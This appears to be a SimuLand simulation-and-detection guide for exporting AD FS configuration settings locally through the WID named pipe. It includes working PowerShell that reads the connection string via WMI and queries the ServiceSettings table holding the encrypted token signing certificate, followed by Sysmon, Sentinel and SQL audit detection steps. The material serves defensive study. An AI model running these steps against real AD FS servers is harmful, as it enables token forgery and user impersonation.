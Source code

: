 # Export Active Directory Federation Services (AD FS) Configuration Settings Locally via Named Pipe

## Description

The AD FS configuration settings contains properties of the Federation Service and can be stored in either a Microsoft SQL server database or a `Windows Internal Database (WID)`. You can choose either one, but not both. The `SimuLand` project uses a `WID` as the AD FS configuration database.

The AD FS configuration settings contains sensitive information such as the AD FS token signing certificate (encrypted format) which can be exported and decrypted to sign SAML tokens and impersonate users in a hybrid environment.

Locally, the AD FS WID does not have its own management user interface (UI), but one could connect to it via a specific `named pipe`.
Depending on the WID version, one could use the following named pipes to connect to the AD FS database and query its configuration settings:

* **WID 2008**: `\\.\pipe\MSSQL$MICROSOFT##SSEE\sql\query`
* **WID 2012+**: `\\.\pipe\MICROSOFT##WID\tsql\query`

## Table of Contents

* [Preconditions](#preconditions)
* [Simulation Steps](#simulation-steps)
* [Detection](#detection)
* [Output](#output)
* [Variations](#variations)

## Preconditions
* Integrity level: medium
* Authorization:
    * Resource: AD FS Database 
    * Identity:
        * AD FS Service Account
        * Local Administrator
* AD FS Server
    * Services:
        * Active Directory Federation Services (ADFSSRV)

## Simulation Steps

### Get Database Connection String via WMI Class

The named pipe information can be obtained directly from the `ConfigurationDatabaseConnectionString` property of the `SecurityTokenService` class from the WMI `ADFS namespace`.

1.  Connect to the AD FS server via the [Azure Bastion service](../../2_deploy/_helper_docs/connectAzVmAzBastion.md) as the AD FS service account.
2.  Open PowerShell and run the following commands:

```PowerShell
$ADFS = Get-WmiObject -Namespace root/ADFS -Class SecurityTokenService
$conn = $ADFS.ConfigurationDatabaseConnectionString
$conn
```

![](../../resources/images/simulate_detect/credential-access/exportADFSTokenSigningCertificate/2021-05-19_02_get_database_string_wmi_class.png)

### Connect to the Database and Read Configuration

3. Use the connection string to connect to the AD FS database (WID) and run a SQL `SELECT` statement to export its configuration settings from the `IdentityServerPolicy.ServiceSettings` table.

```PowerShell
$SQLclient = new-object System.Data.SqlClient.SqlConnection -ArgumentList $conn
$SQLclient.Open()
$SQLcmd = $SQLclient.CreateCommand()
$SQLcmd.CommandText = "SELECT ServiceSettingsData from IdentityServerPolicy.ServiceSettings"
$SQLreader = $SQLcmd.ExecuteReader()
$SQLreader.Read() | Out-Null
$settings=$SQLreader.GetTextReader(0).ReadToEnd()
$SQLreader.Dispose()
$settings
```

![](../../resources/images/simulate_detect/credential-access/exportADFSTokenSigningCertificate/2021-05-19_03_get_database_configuration.png)

## Detection

### Detect Named Pipe Connection

The connection to the AD FS database occurs via the `\\.\pipe\microsoft##wid\tsql\query` named pipe, and we could monitor for the connection to it with `Sysmon Event ID 18 (Pipe Connected)`.

![](../../resources/images/simulate_detect/credential-access/exportADFSTokenSigningCertificate/2021-05-19_04_event_sample.png)

#### Azure Sentinel Detection Rules

* [AD FS Database Named Pipe Connection Rule](https://github.com/Azure/Azure-Sentinel/blob/master/Detections/SecurityEvent/ADFSDBNamedPipeConnection.yaml)

### Detect AD FS SQL Statement to Export Service Settings

If we want to monitor for anyone interacting with the WID database via SQL statements, we would need to [create a server audit and database audit specification](https://docs.microsoft.com/en-us/sql/relational-databases/security/auditing/create-a-server-audit-and-database-audit-specification?view=sql-server-ver15). We can use the [Microsot SQL Server PowerShell module](https://docs.microsoft.com/en-us/powershell/module/sqlserver/?view=sqlserver-ps) to connect to the database and create audit rules.

**Create SQL Audit Rules**:

1.  On the AD FS server (ADFS01), open PowerShell as Administrator.
2.  Install the SqlServer PowerShell Module.

```PowerShell
Install-Module -Name SqlServer
Import-module SqlServer
```

3.  Create SQL Audit Rules.

```PowerShell
Invoke-SqlCmd -ServerInstance '\\.\pipe\microsoft##wid\tsql\query' -Query "
USE [master]
GO
CREATE SERVER AUDIT [ADFS_AUDIT_APPLICATION_LOG] TO APPLICATION_LOG WITH (QUEUE_DELAY = 1000, ON_FAILURE = CONTINUE)
GO
ALTER SERVER AUDIT [ADFS_AUDIT_APPLICATION_LOG] WITH (STATE = ON)
GO
USE [ADFSConfigurationV4]
GO
CREATE DATABASE AUDIT SPECIFICATION [ADFS_SETTINGS_ACCESS_AUDIT] FOR SERVER AUDIT [ADFS_AUDIT_APPLICATION_LOG] ADD (SELECT, UPDATE ON OBJECT::[IdentityServerPolicy].[ServiceSettings] BY [public])
GO
ALTER DATABASE AUDIT SPECIFICATION [ADFS_SETTINGS_ACCESS_AUDIT] WITH (STATE = ON)
GO
"
```

4.  Validate SQL Audit rule by running previous simulation steps either as the AD FS service account or local administrator:
* [Get Database Connection String via WMI Class](#get-database-connection-string-via-wmi-class)
* [Connect to database and run SQL statement to read configuration](#connect-to-database-and-run-sql-statement-to-read-configuration)

![](../../resources/images/simulate_detect/credential-access/exportADFSTokenSigningCertificate/2021-05-19_04_adfs_sql_event_sample.png)

#### Azure Sentinel Hunting Queries

* [AD FS Database Local SQL Statements Rule](https://github.com/Azure/Azure-Sentinel/blob/master/Hunting%20Queries/SecurityEvent/ADFSDBLocalSqlStatements.yaml)

## Output
* AD FS Configuration Settings

## Variations
* [Export AD FS Configuration Settings via Policy Store Transfer Service](exportADFSConfigSettingsPolicyStore.md)

## References
* [Exporting ADFS certificates revisited: Tactics, Techniques and Procedures (o365blog.com)](https://o365blog.com/post/adfs/)
* [The Role of the AD FS Configuration Database | Microsoft Docs](https://docs.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-the-ad-fs-configuration-database)
* [Create a server audit and database audit specification](https://docs.microsoft.com/en-us/sql/relational-databases/security/auditing/create-a-server-audit-and-database-audit-specification?view=sql-server-ver15)
* [SQL Server Audit Action Groups and Actions](https://docs.microsoft.com/en-us/sql/relational-databases/security/auditing/sql-server-audit-action-groups-and-actions?view=sql-server-ver15)